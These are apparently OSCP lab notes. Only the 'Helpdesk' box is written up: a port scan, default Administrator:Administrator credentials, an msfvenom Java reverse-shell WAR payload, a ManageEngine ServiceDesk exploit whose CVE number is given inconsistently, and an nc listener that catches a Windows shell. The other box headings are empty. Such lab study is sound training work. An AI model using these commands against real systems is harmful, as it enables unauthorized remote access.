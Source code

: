 
## Helpdesk
1. Rustscan 
```
┌──(kali㉿kali)-[~/OSCP/pg]
└─$ rustscan 192.168.235.43

Open 192.168.235.43:135
Open 192.168.235.43:139
Open 192.168.235.43:445
Open 192.168.235.43:3389
Open 192.168.235.43:8080
```

2. Vulnerable with CVE-2024-5301.py for ManageEngine ServiceDesk Plus 7.6.0. 

3. Found default credentials for 8080 login page. (Administrator:Administrator)

4. Execute exploit. 
```
a. Generate msfvenom payload
 msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war

b. Run exploit
┌──(kali㉿kali)-[~/OSCP/pg]
└─$ python3 ./CVE-2014-5301.py 192.168.235.43 8080 administrator administrator shell.war
Trying http://192.168.235.43:8080/bPN9UbHZb6VWNjH7XXS8gxkVOVvCN5vs/giizuehuq/cFyilP9oQl2RnDPh

c. Obatined rever shell
┌──(kali㉿kali)-[~/OSCP/pg]
└─$ nc -nvlp 4444  
listening on [any] 4444 ...
connect to [192.168.45.206] from (UNKNOWN) [192.168.235.43] 49192
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin>
```

5. Obatined proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
102edf416b58df65fca770163b2d4252
```




## Access

## Algernon

## Authby

## Craft2

## Heist

## Hutch

## Internal

## Jacko

## Kevin

## Kyoto

## Nara

## Resourced

## Squid